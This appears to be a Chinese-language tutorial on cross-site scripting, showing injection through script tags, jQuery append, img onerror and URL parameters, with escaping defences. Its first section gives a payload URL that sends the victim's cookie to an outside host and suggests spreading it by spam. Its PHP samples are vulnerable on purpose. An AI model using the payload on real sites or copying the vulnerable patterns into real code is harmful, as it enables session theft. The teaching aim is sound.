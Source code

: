 ## 1.通过<script\>

举个例子：通过QQ群，或者通过群发垃圾邮件，来让其他人点击这个地址：

book.com/search?name=<script>document.location='http://vajoy/get?cookie='+document.cookie</script>

这样我们就可以获取别人的cookie信息了

## 2.通过append

~~~html
<?php
    $username="\u003cscript\u003ealert('okok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            第一条状态：侯医生的状态1
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username);?>");
        </script>
    </body>
</html>

~~~

 这样通过echo还是可以执行对应的脚本的  

## 3.通过Img标签

当图片加载失败时，会调用该元素上面的onerror事件，我们正可以利用这里进行攻击。

~~~html
<?php
    $username="<script>alert('侯医生');</script>";
    $imgsrc="\" onerror=\"javascript:alert('侯医生');\"";

?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            第一条状态：侯医生的状态1，这个是图片：
            <img src="<?php echo $imgsrc;?>" />
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
    </body>
</html>
~~~

结果就是：

![img](https://images2015.cnblogs.com/blog/899904/201612/899904-20161222114958776-1323053243.png)

## 升级防御

看来，我们需要再次进行防御升级了，我们将输出的字符串中的`\`反斜杠进行转义(json转义)。这样，`\`就不会被当做unicode码的开头来被处理了。代码如下：

```js
document.getElementById('username_info').innerHTML = <?php echo json_encode(htmlentities($username));?>;
```

## 4.通过URL

如果黑客在URL的这个参数中加入js代码，这样便又会被执行

![img](https://images2015.cnblogs.com/blog/899904/201612/899904-20161222120143042-1165980918.png)

像这种从url中获取的信息，笔者建议，最好由后端获取，在前端转义后再行输出

```
<script>
    var value = decodeURIComponent("<?php echo htmlentities($_GET['username']);?>");
    $('#username_info').append(value);
</script>
```